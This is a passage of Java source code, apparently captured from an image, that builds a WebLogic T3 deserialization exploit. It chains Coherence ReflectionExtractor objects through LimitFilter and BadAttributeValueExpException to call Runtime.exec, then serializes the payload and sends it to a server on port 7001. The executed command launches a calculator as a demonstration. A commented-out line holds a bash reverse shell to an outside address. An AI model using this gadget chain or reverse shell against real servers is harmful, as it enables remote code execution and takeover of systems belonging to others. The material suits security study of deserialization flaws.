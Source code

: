 ```java
                "invoke",
                new Object[]{null, new Object[0]}

        );

        // invoke("exec","calc")
        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "exec",
                new Object[]{new String[]{"galculator"}}
                // new Object[]{new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/172.16.9.15/1004 0>&1"}}
        );

        ReflectionExtractor[] extractors = {
                extractor1,
                extractor2,
                extractor3,
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);

        // BadAttributeValueExpException toString()
        // This only works in JDK 8u76 and WITHOUT a security manager
        // https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        // serialize
        byte[] payload = Serializables.serialize(badAttributeValueExpException);

        // T3 send, you can also use python script. weblogic_t3.py
        T3ProtocolOperation.send("192.168.201.132", "7001", payload);

        // test
        serialize(badAttributeValueExpException);
//        deserialize();

    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```